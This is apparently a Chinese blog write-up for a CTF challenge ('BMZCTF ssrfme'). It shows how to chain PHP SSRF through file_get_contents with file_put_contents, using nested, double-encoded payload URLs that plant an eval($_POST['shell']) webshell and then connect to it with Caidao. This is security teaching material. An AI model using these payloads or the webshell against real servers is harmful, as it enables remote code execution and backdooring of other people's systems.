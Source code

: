 <!--yml
category: 未分类
date: 2022-04-26 14:51:27
-->

# BMZCTF SSRFME 详解_black guest丶的博客-CSDN博客_bmzctf

> 来源：[https://blog.csdn.net/u013797594/article/details/118463622](https://blog.csdn.net/u013797594/article/details/118463622)

# BMZCTF ssrfme详解

# 题目：

![image-20210704082913890](img/d11aa61fdcc9de52cee32af3b354dfff.png)

打开题目直接是PHP代码，阅读代码：首先要求传入get参数file和path，file会直接赋值给$url，path会拼接upload，如果$path里面有…那么就会终止执行。$url如果以http://127.0.0.1/开头，则通过file_get_contents($url)读取内容，然后通过file_put_contents()写入到$path中，并且通过echo输出"console.log($path update successed!)" ,$path可控。

# 解题思路

## 1.文件包含漏洞

file_get_contents()和include等函数一样，是可以导致PHP文件包含漏洞的，php://、file://、zip://、compress等伪协议都可以利用，但这道题因为判断了if(strpos($url,‘http://127.0.0.1/’) === 0)，要求传入的file参数必须以http://127.0.0.1/开头这样就限制必须使用http伪协议，使用http协议可以进行本地和远程文件包含，当allow_url_fopen = On时可进行本地文件包含（应该只能包含到网站根目录即其子目录下的文件），**并且包含时也可传入参数**

有了这个知识点，我们就可以构造这样的参数来读取网站下的文件了:

```
#file_get_contents读取index.php文件内容后，通过file_put_contents()写入到$path中，也就是upload/test.php文件中
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php&path=test.php 
```

这样读取到的是index.php源文件，一般读取源文件可以找到一些隐藏提示，但这道题并没有，所以光是这样还不行，又涉及到下一个知识点。

## 2.通过http方式包含的文件可传入参数

查看文档，file_get_contents()的作用是：把整个文件读入一个字符串中，这点和include函数还是有区别的，include包含的文件会直接当做php脚本执行，但file_get_contents直接包含文件名只会读取为字符串。那要如何利用呢？答案是通过http伪协议方式去读取。

来做下测试：

创建2个文件，文件1 test.php

```
<?php
error_reporting(0);
echo file_get_contents($_GET['file']); 
```

文件2 test2.php

```
<?php
echo 'go'; 
```

我们访问test.php?file=test2.php，查看源码发现读取的是test2.php源码的内容

![image-20210704092656660](img/7861e81df07b24e883fd2c66ff55bc7f.png)

访问test.php?file=http://127.0.0.1/test2.php，则直接是获取到go，也就是php执行后的结果

![image-20210704092810293](img/8f51c70ba31871c3662c1c7869df3c02.png)

**所以文件包含中通过http伪协议方式去读取文件，就和我们直接在浏览器中通过http方式去访问一个页面是完全一样的效果，服务器会直接通过http方式去访问这个页面，因此我们也可以给它传入参数，这点在很多CTF题目中都会考。**

于是我们就想到要构造如下payload:

```
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=test1.php&path=test2.php 
```

**注意**：我们刚才提到file_get_contents函数通过http伪协议方式包含的地址，服务器就会以http方式去访问，那服务器自己访问的就是http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=test1.php，因为代码中使用echo输出结果（“console.log($path update successed!)”），服务器自己访问页面后返回的结果就是console.log(upload/test1.php update successed!) ，并且也会成功写一个test1.php文件 ，file_get_contents函数执行结束。然后通过file_put_contents写入到$path(test2.php)中。这里存在一个利用点就是echo输出的$path是可控的，最终写入到文件中的内容是服务器自己通过http访问页面后echo出来的内容，那我们就可以把自己想要的东西写入到文件中了，构造payload: 把test1.php变为<?php eval($_POST[‘shell’]);?>

```
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=<?php eval($_POST['shell']);?>&path=test2.php 
```

我们想让服务器自己访问的http变成了http://127.0.0.1/index.php?file=http://127.0.0.1/inde.php&path= <?php eval($_POST[‘shell’]);?> ，想要得到的结果就是console.log(<?php eval($_POST[‘shell’]);?> update successed!) ，然后通过file_put_contents函数写入upload/test2.php页面中，便能成为我们的php后门脚本。但其实直接这样传入还是不行，这里还涉及3个小的知识点。

**一.php在收到请求后，会解析key=value形式的参数，以&分割参数**

**二.默认情况下，浏览器会对特殊字符进行url编码，所以php默认就会对解析后的参数进行url解码，注意是对解析后的。比如你传入的参数直接将&进行了url编码，那php就没有办法根据&分割参数了。**

​ http://127.0.0.1/?name=asd&password=123，会解析出name和password这2个参数

​ 将&进行url编码后：

​ http://127.0.0.1/?name=asd%26password=123，只会解析出name这1个参数，并且name的值会进行url解码变成asd&password=123

**三.空格等特殊字符如果不进行编码，服务器在处理的时候可能出现问题，通过浏览器的方式访问的话，空格会自动编码为%20或+，但我们通过上述方法嵌套参数，让服务器自己去请求http的时候就会出现问题，解决办法是进行二次编码。因为第二点说了web服务器默认就会对解析后的参数进行url解码，所以php最开始解析我们的参数时进行了一次解码，服务器通过http伪协议去访问时又会对解析后的参数进行一次解码，所以我们可以进行二次编码**

综合一二三的知识点，就可以构造如下payload:

```
#1.将其中一个&进行url编码，让服务器成功解析出2个参数：
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=<?php eval($_POST['shell']);?>&path=test2.php

#2.将一句话木马中的空格进行二次编码，形成最终的payload:
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=<?php%2520eval($_POST['shell']);?>&path=test2.php

#当然对整个一句话<?php eval($_POST['shell']);?>中所有字符进行二次编码也是可以的，其他题都可以这么搞，免得有别的字符影响结果
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%36%35%25%37%36%25%36%31%25%36%63%25%32%38%25%32%34%25%35%66%25%35%30%25%34%66%25%35%33%25%35%34%25%35%62%25%32%37%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%37%25%35%64%25%32%39%25%33%62%25%33%66%25%33%65&path=test2.php 
```

![image-20210704160310834](img/77165b7b41d628ce10d53a0470f56360.png)

菜刀连接，找到flag

![image-20210704160257378](img/368bfed4ed9495a2eb135919e875fd18.png)

菜刀连接，找到flag

![image-20210704163622072](img/d82a9296c043606e69158ad1d9320782.png)